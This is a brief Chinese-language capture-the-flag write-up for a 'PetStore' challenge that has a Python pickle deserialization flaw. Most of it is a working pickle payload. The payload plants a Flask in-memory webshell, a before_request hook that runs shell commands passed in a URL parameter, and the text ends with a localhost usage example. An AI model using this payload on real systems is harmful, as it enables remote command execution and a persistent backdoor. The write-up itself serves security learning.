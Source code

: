 # PetStore

很明显的python pickle反序列化，重点是怎么在不出网的情况下拿到命令执行的结果。稍微搜一下“python flask不出网反序列化漏洞”就能搜到flask内存马这个关键字，然后就有了现成的payload： https://www.cnblogs.com/gxngxngxn/p/18181936 。看着代码有isinstance逻辑，所以下意识用Pet类包装了一下。后面发现好像不需要啊
```py
import pickle
import base64
import uuid
class Pet():
    def __init__(self, name, species) -> None:
        self.name = name
        self.species = species
        self.uuid = uuid.uuid4()
    def __repr__(self) -> str:
        return f"Pet(name={self.name}, species={self.species}, uuid={self.uuid})"
    def __reduce__(self):
        return (eval,("__import__(\"sys\").modules['__main__'].__dict__['app'].before_request_funcs.setdefault(None, []).append(lambda :__import__('os').popen(request.args.get('gxngxngxn')).read())",))
a = Pet("a","a")
b = pickle.dumps(a)
print(base64.b64encode(b))
```
注意就算反序列化成功了也会显示`Failed to import pet`，这个不重要。随便访问一个404路由然后gxngxngxn传参命令即可： http://127.0.0.1:61625/bruh?gxngxngxn=env